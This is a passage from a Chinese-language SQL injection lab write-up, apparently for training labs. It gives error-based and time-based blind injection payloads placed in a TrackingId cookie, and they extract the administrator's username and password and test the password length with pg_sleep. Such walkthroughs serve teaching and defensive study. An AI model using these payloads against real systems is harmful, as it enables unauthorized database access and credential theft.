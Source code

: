 TrackingId=`' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--` 发送请求。观察到错误消息现在泄漏了users表中的第一个用户名：

ERROR: invalid input syntax for type integer: "administrator" 现在我们知道管理员是表中的第一个用户，再次修改查询以泄漏他们的密码：

TrackingId=`' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

## 时延SQL盲注

根据题意，我们知道我们需要利用sql注入完成10秒的时延。因此，我们只需要利用bp抓包，在trackingid后面加上` '||pg_sleep(10)--`即可。

![image-20240910125057207](./imgs/image-20240910125057207.png)

## 基于延时的SQL盲注并且检索数据

抓包，还是修改TrackingId参数，TrackingId=x`'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`。这里的`%3B`代表分号字符的URL编码版本，用于在SQL语句中分隔多个查询。如果不明白该sql查询的意思，可以单独将它拿出来看：

```sql
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

该句使用了一个CASE语句来检查条件。如果条件 (1=1) 成立，则执行 pg_sleep(10)，即让数据库休眠 10 秒钟；否则执行 pg_sleep(0)，即让数据库休眠 0 秒钟。观察到存在延时，继续修改该语句；

修改：TrackingId=x`'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`，观察到返回没有延时，以此判断是boolean型注入；

判断用户名是否administrator，TrackingId=x`'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`，观察到延时，说明存在administrator用户名；

确定密码长度，实际是20位，TrackingId=x`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
